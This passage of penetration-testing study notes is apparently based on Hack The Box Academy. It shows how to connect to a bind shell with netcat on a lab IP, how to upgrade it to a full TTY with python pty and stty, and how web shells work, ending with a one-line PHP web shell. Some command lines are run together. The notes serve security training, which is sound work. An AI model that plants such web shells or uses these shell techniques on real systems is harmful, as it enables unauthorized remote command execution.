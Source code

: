 **2 - Connect to the port where we set up the shell to wait for us:**

```
Eli90@htb[/htb]$ nc 10.10.10.1 1234id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

And we are dropped into a bash session automatically.

## TTY (Upgrading terminal)

In order to be able to move cursor, use arrows and such.  There are multiple ways to do this, among which:

`python -c 'import pty; pty.spawn("/bin/bash")'`

`python3 -c 'import pty; pty.spawn("/bin/bash")'`

After we run this command, we will hit `ctrl+z` to background our shell and get back on our local terminal, and input the following `stty` command:

`www-data@remotehost$ ^ZEli90@htb[/htb]$ stty raw -echoEli90@htb[/htb]$ fg[Enter]
[Enter]
www-data@remotehost$`

Once we hit `fg`, it will bring back our `netcat` shell to the foreground. At this point, the terminal will show a blank line. We can hit `enter` again to get back to our shell or input `reset`
 and hit enter to bring it back. At this point, we would have a fully
working TTY shell with command history and everything else.

more options [here](https://academy.hackthebox.com/module/77/section/725)

## Web Shell

A `Web Shell` is typically a web script, i.e., `PHP` or `ASPX`, that accepts our command through HTTP request parameters such as `GET` or `POST` request parameters, executes our command, and prints its output back on the web page.

**pros**

- bypasses firewall restriction in place

- will not open a new connection on port but run on web (80, 880 or 443, or wtv)

- If rebooted, connection will still persists

**cons**

- shell obtained is not as interactive as we have to request a new url for  each command (although can be automated with a python script)

**STEPS TO IMPLEMENT**

**1 - Write a web shell**

Code: php

```php
<?php system($_REQUEST["cmd"]); ?>
```
